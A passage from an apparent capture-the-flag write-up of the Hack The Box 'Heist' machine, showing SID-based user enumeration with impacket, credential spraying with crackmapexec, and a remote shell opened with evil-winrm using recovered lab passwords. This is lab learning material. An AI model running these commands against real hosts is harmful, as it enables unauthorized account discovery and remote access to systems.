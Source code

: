 ```bash
SMB         10.10.10.149    445    SUPPORTDESK      IPC$            READ            Remote IPC
```

Looks like the new passwords did not help us much.
We need to find a way to find more users. Previously I only knew about the user enumeration scripts from nmap, but python-impacket has some tools to fetchs users via SID lookup:
```
kali@kali:/usr/share/doc/python3-impacket/examples$ python3 lookupsid.py 'hazard:stealth1agent'@10.10.10.149
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```
Bunch of new users! Let's add it to our `users.txt` file.

new users:
Guest
WDAGUtilityAccount
support
Chase
Jason

Running `crackmapexec` again, we can see that the following user can authenticate as well
```
MB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Enumerated shares
SMB         10.10.10.149    445    SUPPORTDESK      Share           Permissions     Remark
SMB         10.10.10.149    445    SUPPORTDESK      -----           -----------     ------
SMB         10.10.10.149    445    SUPPORTDESK      ADMIN$                          Remote Admin
SMB         10.10.10.149    445    SUPPORTDESK      C$                              Default share
SMB         10.10.10.149    445    SUPPORTDESK      IPC$            READ            Remote IPC
```

Let's try `evil-winrm` again:
```bash
kali@kali:~/htb/boxes/heist/10.10.10.149$ evil-winrm -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents>
```

Boom a user shell 🙌
